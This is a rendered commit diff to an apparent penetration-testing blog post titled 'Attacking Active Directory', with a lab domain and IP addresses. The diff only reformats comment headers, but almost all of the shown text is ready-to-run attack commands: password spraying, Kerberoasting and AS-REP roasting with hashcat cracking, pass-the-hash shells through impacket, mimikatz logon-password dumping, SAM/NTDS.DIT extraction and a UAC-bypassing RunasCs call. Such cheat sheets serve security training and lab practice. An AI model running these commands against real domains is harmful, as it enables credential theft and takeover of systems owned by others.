

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory.md, in a window 1280 px wide and 1400 px high, scrolled down 7811 px. Shown: the whole window at 91% size, without its empty margins (229-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory.md
@@ -139,8 +139,7 @@
 nxc smb 172.16.150.10 -u john -p 'Password123!' --groups
 crackmapexec smb 172.16.150.10 -u john -p 'Password123!' --groups
 
-# -------------------- CMD and PowerShell --------------------
-
+# CMD and PowerShell
 # Domain groups
 net group /domain
 net group "Domain Admins" /domain # Specifying a domain group
@@ -165,13 +164,12 @@
 ```
 ### SMB Shares Credentialed Access and Enumeration
 ```shell
-# -------------------- Enumeration --------------------
-
+# Enumeration
 # NetExec and CrackMapExec
 nxc smb 172.16.150.10 -u john -p 'Password123!' --shares
 crackmapexec smb 172.16.150.10 -u john -p 'Password123!' --shares
 
-# -------------------- CMD and PowerShell --------------------
+# CMD and PowerShell
 net view \\172.16.150.10
 net share
 net use
@@ -180,7 +178,7 @@
 # enum4linux
 enum4linux -S 172.16.150.10
 
-# -------------------- Connection --------------------
+# Connection
 smbclient //172.16.150.10/Public -U john
 impacket-smbclient vorkharium.com/john:'Password123!'@172.16.150.10
 
@@ -193,7 +191,7 @@
 # Using hash
 rpcclient //172.16.150.10 -U vorkharium.com/john%1a06b4248879e68a498d3bac51bf91c9 --pw-nt-hash
 
-# -------------------- All RPC Queries --------------------
+# All RPC Queries
 srvinfo
 enumdomusers # Users
 enumpriv # Works like "whoami /priv"
@@ -219,15 +217,13 @@
 ```
 ### Password Spraying
 ```shell
-# -------------------- kerbrute.py --------------------
-
+# kerbrute.py
 git clone https://github.com/TarlogicSecurity/kerbrute.git
 cd kerbrute
 
 python3 kerbrute.py -users usernames.txt -passwords passwords.txt -dc-ip 172.16.150.10 -domain vorkharium.com
 
-# -------------------- NetExec --------------------
-
+# NetExec
 # Password Spraying
 nxc smb 172.16.150.10 -u john -p passwords.txt
 nxc smb 172.16.150.10 -u usernames.txt -p 'Password123!'
@@ -273,8 +269,7 @@
 # Display stored credentials
 cmdkey /list
 
-# -------------------- Finding and Cracking KeePass .kdbx Files --------------------
-
+# Finding and Cracking KeePass .kdbx Files
 # CMD
 dir /s /b *.kdbx
 # PowerShell
@@ -283,8 +278,7 @@
 keepass2john Database.kdbx > keepasshash
 john --wordlist=/usr/share/wordlists/rockyou.txt keepasshash
 
-# -------------------- Finding Files potentially containing Credentials --------------------
-
+# Finding Files potentially containing Credentials
 # .db and KeePass .kdbx
 Get-ChildItem -Path C:\ -Include *.db, *.kdbx -Recurse -ErrorAction SilentlyContinue | Select-Object FullName
 
@@ -305,23 +299,20 @@
 ```
 ### Runas and RunasCs.exe
 ```shell
-# -------------------- Native Runas --------------------
-
+# Native Runas
 # Local - Changing to user "jane"
 runas /user:jane cmd # # Enter the password now when asked
 
 # Domain - Changing to user "john"
 runas /netonly /user:vorkharium.com\john cmd
 
-# -------------------- RunasCs.exe --------------------
-
+# RunasCs.exe
 # Using RunasCs.exe with pwnednewuser (pwnednewuser is a new user with admin rights we added before through an exploit)
 ./RunasCs.exe pwnednewuser 'password123!' "cmd /c type C:\Users\Administrator\Desktop\root.txt" --bypass-uac --logon-type '8' --force-profile
 ```
 ### BloodHound, SharpHound.exe, bloodhound-python
 ```shell
-# -------------------- BloodHound Collectors --------------------
-
+# BloodHound Collectors
 # SharpHound v1.1.1 (Use version 1.1.1, otherwise SharpHound.exe results won't work and BloodHound will appear empty after loading them)
 ./SharpHound.exe --CollectionMethods All
 .\SharpHound.exe -c All
@@ -331,8 +322,7 @@
 # Collect information with valid user "john"
 bloodhound-python -d vorkharium.com -u john -p 'Password123!' -ns 172.16.150.10 -c all --dns-tcp
 
-# -------------------- BloodHound --------------------
-
+# BloodHound
 # Starting BloodHound
 sudo neo4j console
 sudo bloodhound
@@ -369,8 +359,7 @@
 https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview
 ### Impacket PsExec, WmiExec and SMBExec - SMB Shell Access with Password or Pass-the-Hash
 ```shell
-# -------------------- Using Password --------------------
-
+# Using Password
 # impacket-psexec with password
 impacket-psexec Administrator:'Password123!'@172.16.150.10
 impacket-psexec vorkharium.com/Administrator:'Password123!'@172.16.150.10
@@ -383,8 +372,7 @@
 impacket-smbexec Administrator:'Password123!'@172.16.150.10
 impacket-smbexec vorkharium.com/Administrator:'Password123!'@172.16.150.10
 
-# -------------------- Using Hash (Pass-the-Hash) --------------------
-
+# Using Hash (Pass-the-Hash)
 # impacket-psexec with hash
 impacket-psexec Administrator@172.16.150.10 -hashes :1a06b4248879e68a498d3bac51bf91c9
 impacket-psexec vorkharium.com/Administrator@172.16.150.10 -hashes :1a06b4248879e68a498d3bac51bf91c9
@@ -431,8 +419,7 @@
 # Using john to obtain the hash of jane
 ./Rubeus.exe kerberoast /domain:vorkharium.com /user:jane /creduser:vorkharium.com\john /credpassword:'Password123!' /nowrap
 
-# -------------------- Cracking the hash --------------------
-
+# Cracking the hash
 # With Hashcat
 hashcat -m 13100 jane_hash.txt /usr/share/wordlists/rockyou.txt
 hashcat -m 13100 -a 0 -o cracked_jane_hash.txt jane_hash.txt /usr/share/wordlists/rockyou.txt
@@ -450,8 +437,7 @@
 # AS-REP Roasting with password
 impacket-GetNPUsers vorkharium.com/john:'Password123!' -dc-ip 172.16.150.10 -request -no-pass
 
-# -------------------- Cracking the hash --------------------
-
+# Cracking the hash
 # With Hashcat
 hashcat -m 18200 -a 0 jane_hash.txt /usr/share/wordlists/rockyou.txt
 hashcat -m 18200 -a 0 -o cracked_jane_hash.txt jane_hash.txt /usr/share/wordlists/rockyou.txt
@@ -462,8 +448,7 @@
 ```
 ### Remote Credential Dumping with Impacket and NetExec
 ```shell
-# -------------------- Using Impacket --------------------
-
+# Using Impacket
 # With password
 impacket-secretsdump vorkharium.com/john:'Password123!'@172.16.150.10
 # Using hash
@@ -475,8 +460,7 @@
 # Example with -dc-ip
 impacket-secretsdump -dc-ip 172.16.150.10 'vorkharium.com/john:"Password123!"@172.16.150.10'
 
-# -------------------- With NetExec --------------------
-
+# With NetExec
 # SAM
 nxc smb 172.16.150.20 -u john -p 'Password123!' --sam
 
@@ -500,8 +484,7 @@
 ```
 ### Local Credential Dumping with Mimikatz and Impacket
 ```shell
-# -------------------- Mimikatz.exe --------------------
-
+# Mimikatz.exe
 # Important Note: mimikatz.exe wont work from the evil-winrm console. Use nc to get shell instead
 # Run mimikatz.exe as administrator
 
@@ -522,8 +505,7 @@
 .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
 .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
 
-# -------------------- SAM and NTDS.DIT Dump --------------------
-
+# SAM and NTDS.DIT Dump
 # reg.exe
 reg save hklm\sam 'C:\Windows\Temp\sam'
 reg save hklm\system 'C:\Windows\Temp\system'
@@ -535,8 +517,7 @@
 Copy-FileSeBackupPrivilege V:\Windows\NTDS\NTDS.DIT C:\Users\john\Desktop\NTDS.DIT
 # Find a way to get NTDS.DIT and transfer it to Kali for local dump
 
-# -------------------- impacket-secretsdump --------------------
-
+# impacket-secretsdump
 # With Security
 impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY local
 
@@ -546,7 +527,7 @@
 # Without SECURITY and without NTDS.DIT (Still able to dump something interesting)
 impacket-secretsdump -sam SAM -system SYSTEM local
 
-# -------------------- samdump2 --------------------
+# samdump2
 samdump2 SYSTEM SAM
 
 # Note: Pay attention to case sensitive, upper and lower case. Try both tools always, one might fail
````
Also changed, not shown: other parts of _posts/2024-11-01-Attacking-Active-Directory.md (+5 -5 lines).
